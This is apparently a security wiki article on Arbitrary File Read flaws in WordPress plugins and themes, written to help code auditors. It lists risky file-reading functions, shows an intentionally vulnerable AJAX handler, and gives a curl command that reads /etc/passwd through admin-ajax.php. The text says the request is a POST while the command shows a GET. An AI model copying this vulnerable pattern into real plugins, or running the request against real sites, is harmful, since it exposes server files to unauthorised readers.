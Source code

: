 ```yaml
---
title: Arbitrary File Read
contributors:
    - rafiem
---
```


## Introduction

This article covers cases of possible Arbitrary File Read on WordPress. This includes improper file fetch handling inside of the plugin/theme which can be used to read arbitrary local files inside of the server.

## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Read vulnerability:

- PHP related
    - [`file_get_contents`](https://www.php.net/manual/en/function.file-get-contents.php)
    - [`readfile`](https://www.php.net/manual/en/function.readfile.php)
    - [`fopen`](https://www.php.net/manual/en/function.fopen.php)
    - [`fread`](https://www.php.net/manual/en/function.fread.php)
    - [`fgets`](https://www.php.net/manual/en/function.fgets.php)
    - [`fgetcsv`](https://www.php.net/manual/en/function.fgetcsv.php)
    - [`fgetss`](https://www.php.net/manual/en/function.fgetss.php) *deprecated from PHP 7.3*
    - [`file`](https://www.php.net/manual/en/function.file.php)
    - [`cURL`](https://www.php.net/manual/en/book.curl.php)

- WordPress related
    - [`WP_Filesystem_Direct::get_contents`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/get_contents/)
    - [`WP_Filesystem_Direct::get_contents_array`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/get_contents_array/)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_get_file", "ajax_get_file");

public function ajax_get_file(){
    global $wp_filesystem;

    // Make sure that the above variable is properly setup.
    require_once ABSPATH . 'wp-admin/includes/file.php';
    WP_Filesystem();

    $url = $_GET["url"];
    $data = $wp_filesystem->get_contents($url);
    $data = json_encode( $data );
    echo $data;
    die();
}
```

To exploit this, any authenticated user just needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the needed parameter to trigger the `WP_Filesystem_Direct::get_contents` function.

```bash
curl <WORDPRESS_BASE_URL/wp-admin/admin-ajax.php?action=ajax_get_file&url=/etc/passwd
```

Below are some of the findings related to Arbitrary File Read:

- [Critical Vulnerabilities Patched in WordPress Automatic Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-wordpress-automatic-plugin/)

